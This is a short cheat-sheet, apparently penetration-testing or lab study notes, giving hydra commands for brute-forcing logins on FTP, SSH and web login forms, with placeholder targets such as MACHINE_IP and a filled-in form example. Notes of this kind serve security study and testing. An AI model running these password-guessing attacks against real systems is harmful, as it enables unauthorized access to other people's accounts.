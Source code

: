- brute force password cracking
- To brute force FTP:
```shell
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
- For SSH:
```shell
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```
- To bruteforce form: http-post-form or http-get-form depending on the method used by the form
```shell
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"
```
Ex: 
```shell
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```



